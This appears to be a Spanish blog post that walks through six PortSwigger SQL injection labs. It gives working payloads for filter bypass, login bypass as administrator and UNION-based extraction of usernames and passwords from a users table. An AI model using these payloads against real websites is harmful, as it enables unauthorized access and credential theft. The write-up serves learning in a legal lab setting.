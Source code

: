 ```yaml
---
layout: post
title: Inyecciones SQL básicas (SQLI)
description: Introducción a las inyecciones SQL (SQLI) y write ups de algunos labs de Portswigger 
tags: [ write-ups , seguridad , sqli, portswigger ]
---
```


Con este post inauguro un blog. Un blog que no sé dónde me llevará, ni hasta dónde seré capaz de actualizar. Pretendo simplemente llevar un registro de todo lo que aprendo en el mundo de la informática. Ciberseguridad, DevSecOps, DevOps, snippets de código y cosas por el estilo serán el foco principal.

Allá voy.

## Introducción a SQLi

En el post de hoy voy a tratar de indagar en las inyecciones SQL. Unas de las vulnerabilidades de las que más se habla, y posiblemente una de las más peligrosas, ya que puede exponer todos los datos de nuestro servidor.

El caso más típico y más sencillo es la manipulación de un request cualquiera. Imaginemos una página cuya URL es algo como

`
https://mi-tienda.com/productos?categoria=Coches
`

Coches es el parámetro que se utilizará en el código SQL para buscar todos los productos que corresponden a esa categoría, con un comando similar a este:

`SELECT * FROM productos WHERE categoria = 'Coches'`

Si el comando no está saneado de la forma correcta, ( y espero escribir otro post pronto sobre ello ), podríamos obtener mucha más información simplemente escribiendo en la URL parámetros que se traduzcan en comandos SQL. Muchas de las inyecciones SQL son sencillas de ejecutar, pero para visualizarlo mejor, 
voy a utilizar los [Labs de PortSwigger](https://portswigger.net/web-security/all-labs), ya que tienen muchos niveles, son gratuítos y por ende son perfectos para iniciarse en las inyecciones SQL (SQLi).

### Lab #1: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data.

Tal y como aparece en la descripción, el lab es sensible a inyecciones SQL. Nada más entrar, navego por las diferentes categorías, y compruebo que la url cambia el parámetro _category_. Por tanto, el comando SQL que se ejecuta es algo como

`SELECT * FROM productos WHERE category = 'Corporate+gifts' AND released = 1`

Siendo released=1 los productos que se pueden mostrar. Pues bien, con añadir sencillamente  un 

`'+OR+1=1–` a la url, es decir: `https://.../filter?category=Corporate+gifts’+OR+1=1–`, el comando debería cambiar a algo así como: 

`SELECT * FROM products WHERE category = 'Corporate+gifts' OR 1=1--'`

Sabiendo que 1=1 va a retornar siempre verdadero (true), la inyección nos devolverá todos los productos de todas las categorías.

**Solución:** 

`https://.../filter?category=Corporate+gifts’+OR+1=1–`

### Lab #2: SQL Injection vulnerability allowing login bypass

En la descripción nos dicen que el lab contiene una vulnerabilidad en el _login_, y que debemos intentar acceder como administradores (nombre de usuario _administrator_).

Pues bien, el sistema será parecido. Con sólo añadir un `'--` al usuario _administrator_ el comando que enviaremos a la base de datos será algo como

`SELECT * FROM users WHERE username = 'administrator'--' AND password = ' '`

Es decir, nos saltamos la parte en la que el comando comprueba el _password_. 

**Solución:** 
nuestro nombre de usuario será `administrator'--` y el password será `' '`



## Ataques SQLi usando el comando UNION

El comnado  UNION nos es útil a la hora de realizar ataques SQL. 
Por ejemplo, nos pueden servir para obtener información de la tabla sobre la que estamos ejecutando un comando y sobre otras tablas. Básicamente, un comando UNION nos permite extender el comando SELECT de manera que un comando como:

SELECT x , y FROM productos UNION SELECT a , b FROM clientes

Nos devolvería dos columnas con los valores x e y además de otras dos columnas con los valores a y b. El problema al que a menudo nos enfrentamos es que ambos comandos han de tener el mismo número de columnas.

### Lab #3 : SQL injection UNION attack, determining the number of columns returned by the query 

El reto consiste precisamente en buscar el número de columnas de la tabla category:

Nada más abrir la página del lab, hago click en cualquiera de las categorías (en mi caso Food & Drink). Tan sólo hay que añadir UNION SELECT y algún valor que no genere ninguna respuesta inadecuada en el comando, para lo cual el parámetro NULL nos viene perfecto. Así que hemos de añadir ‘+UNION+SELECT+NULL– a la url. Si todo va bien, nos devolverá una página con el status 200. De no ser así, habrá que ir añadiendo ,NULL hasta que funcione, y así sabremos el número de columnas de la tabla. 

**Solución:**  
`https://..?category=Food+%26+Drink%27+UNION+SELECT+NULL,NULL,NULL--`

Es decir, 3 columnas. 

### Lab #4 : SQL injection UNION attack, finding a column containing text

De nuevo, nuestro lab contiene una vulnerabilidad en category. Ya sabemos que hay 3 columnas, pero ahora debemos averigüar qué columna es de tipo string.

Con lo que hemos visto hasta ahora, resulta sencillo. Simplemente habría que ir reemplazando los NULL del ejercicio anterior por un parámetro de tipo string (de tipo texto) , por ejemplo ‘a’ (una vez dentro del lab hay una pequeña descripción que dice que tenemos que hacer que la base de datos nos devuelva ‘BVWP3H’)

**Solución:** 
`https://...filter?category=Clothing%2c+shoes+and+accessories%27+UNION+SELECT+NULL,%27BVWP3H%27,NULL–`

Es decir, la segunda columna es de tipo string. 

Con esta información podemos crear una petición a nuestra medida y rellenar la respuesta con información de otras tablas mediante el parámetro UNION. Es decir, añadir a la petición legítima otra petición que devuelve el mismo tipo de valor pero dirigida a una tabla diferente. 

El siguiente reto ayuda a entenderlo mejor.

### Lab #5 : SQL injection UNION attack, retrieving data from other tables

Se trata de un lab similar a los dos anteriores, pero en esta ocasión hay que acceder a una tabla users que a su vez contiene dos columnas, username y password. En la vida real podría tratarse de un ejemplo totalmente válido, ya que muchas bases de datos tienen una tabla similar. Pero recomiendo echar un ojo a este enlace si lo que queremos es saber qué tablas existen en la base de datos y qué columnas tienen.

Empiezo inyectando un ataque mediante UNION añadiendo '+UNION+SELECT+NULL– a la url. No funciona. Añado otro NULL más y ahora sí. 

`https://…/filter?category=Gifts%27+UNION+SELECT+NULL,NULL– `

Funciona. Hay dos columnas. 

Deduzco que ambas son de tipo string pero por si acaso, compruebo. 

`https://..filter?category=Gifts%27+UNION+SELECT+%27a%27,%27b%27–`

Todo correcto. Tan sólo queda reemplazar los valores ‘a’ y ‘b’ del parámetro anterior por username y password y añadir la tabla sobre la que queremos lanzar la búsqueda (FROM users en este caso). 

**Solución:** 
`https://acb31fdf1efcae16c02c9680008d005d.web-security-academy.net/filter?category=Gifts%27+UNION+SELECT+username,password+FROM+users–`

Y listo. En la respuesta se añadieron los usuarios wiene, administrator y carlos. Copio el password de administrator para hacer log in y reto superado.

Ahora bien, ¿qué occuriría si la tabla sobre la que quiero ejecutar mi petición sólo dispone de una columna y yo quiero obtener información de dos columnas? El siguiente reto va precisamente de eso:

### Lab #6 : SQL injection UNION attack, retrieving multiple values in a single column

Una vez más, empiezo inyectando un ataque mediante UNION añadiendo '+UNION+SELECT+NULL– a la url. No funciona. Añado otro NULL más y ahora sí. 

`https://…/filter?category=Gifts%27+UNION+SELECT+NULL,NULL– `

Funciona. Hay dos columnas. 

Ahora bien, en esta ocasión creo que sólo una de ellas será de tipo string. Lo compruebo con 

`https://ac211fd71f9c8c3bc02c4a59002a009f.web-security-academy.net/filter?category=Corporate+gifts%27+UNION+SELECT+%27a%27,%27b%27–`

que no funciona. Cambio a :

```https://ac211fd71f9c8c3bc02c4a59002a009f.web-security-academy.net/filter?category=Corporate+gifts%27+UNION+SELECT+%27a%27,NULL–```

Y tampoco. Y por fin:
```https://ac211fd71f9c8c3bc02c4a59002a009f.web-security-academy.net/filter?category=Corporate+gifts%27+UNION+SELECT+NULL,%27a%27–```

Me da una respuesta válida. ¿Y ahora, cómo obtengo el username y password en una sola petición? Mi primer instinto es hacer dos separadas, una para el username y otra para el password. Y efectivamente, funciona. Obtengo los nombres de usuario y los passwords por separado, pero no sería difícil combinarlos ( hay sólo 3 ). 

El ejercicio sin embargo no va de eso, así que investigo un poco más. En este enlace vienen algunos ejemplos de string concatenation útiles. Pruebo con el primero para bases de datos Oracle y bingo. 

**Solución:** 
`https://../filter?category=Corporate+gifts%27+UNION+SELECT+NULL,username||password+FROM+users–`

Retorna el administrador junto al password. Hago log in y reto superado. 



